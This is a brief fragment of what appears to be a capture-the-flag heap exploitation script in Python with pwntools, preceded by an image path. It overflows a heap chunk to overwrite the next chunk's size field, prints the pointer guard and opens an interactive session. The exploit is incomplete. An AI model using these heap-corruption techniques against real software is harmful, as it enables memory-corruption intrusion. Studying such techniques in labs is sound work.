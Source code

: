 ````python

add(7,0x500,"7"*0x40)

edit(6,'a'*0x508+p64(0x300))

print hex(__pointer_chk_guard)
debug(p)
add(8,0xff0,"8"*0x40)

debug(p)
p.interactive()
````

